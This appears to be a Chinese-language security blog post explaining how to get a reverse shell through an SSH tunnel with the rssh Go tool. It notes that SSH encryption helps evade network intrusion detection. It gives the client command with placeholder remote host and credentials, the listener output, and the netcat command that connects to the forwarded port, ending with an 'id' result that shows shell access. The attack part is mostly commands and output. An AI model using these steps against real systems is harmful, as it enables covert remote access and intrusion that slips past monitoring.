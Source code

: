 ```yaml
---
title: 利用ssh 隧道反弹shell
top_img: https://www.apple.com.cn/newsroom/images/values/health/Apple-Health-study-July-2022-hero_big.jpg.large_2x.jpg
cover: https://www.apple.com.cn/newsroom/images/live-action/wwdc-2022/Apple-WWDC22-fraud-prevention-hero_big.jpg.large_2x.jpg
date: 2022-07-22 19:39:51
tags:
    - 安全
    - golang
    - 漏洞
    - Linux
categories: 
           - [安全]
           - [操作系统]
---
```


# 说明
>利用ssh隧道来反弹shell.

使用ssh进行隧道的好处：

1. SSH 会自动加密和解密所有 SSH 客户端与服务端之间的网络数据，同时能够将其他 TCP 端口的网络数据通过 SSH 链接来转发，并且自动提供了相应的加密及解密服务，这样能够避免被NIDS检测到；
2. SSH基本上在每个机器上面存在，不需要额外的条件;

# RSSH
rssh的说明是:
> This program is a simple reverse shell over SSH. Essentially, it opens a connection to a remote computer over SSH, starts listening on a port on the remote computer, and when connections are made to that port, starts a command locally and copies data to and from it.
>> rssh是一个利用SSH反弹shell的程序．原理就是通过SSH在远程服务器上监听一个端口，并执行远程服务器发送过来的数据.

# 运行
在本地运行: 
``` shell
 go run main.go -a ‘127.0.0.1:2222’ -u user -i id_remote_rsa IP.OF.REMOTE.MACHINE
```
正常运行就会如下的结果：
``` shell
main.go -a '127.0.0.1:2222' -u USERNAME -p PASSWORD IP.OF.REMOTE.MACHINE
[  info ] listening for connections on IP.OF.REMOTE.MACHINE:22 (remote listen address: 127.0.0.1:2222)
```
此时，在服务器上面运行(IP.OF.REMOTE.MACHINE)运行 nc 127.0.0.1 2222 即可得到反弹shell.

>服务器端
``` shell
$ nc -c 127.0.0.1 2222
$ id
uid=1000(spoock) gid=1000(spoock) groups=1000(spoock),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
``` shell
客户端
$ go run main.go -a '127.0.0.1:2222' -u USERNAME -p PASSWORD IP.OF.REMOTE.MACHINE
[  info ] listening for connections on IP.OF.REMOTE.MACHINE:22 (remote listen address: 127.0.0.1:2222)
[  info ] accepted connection from: 127.0.0.1:33016
```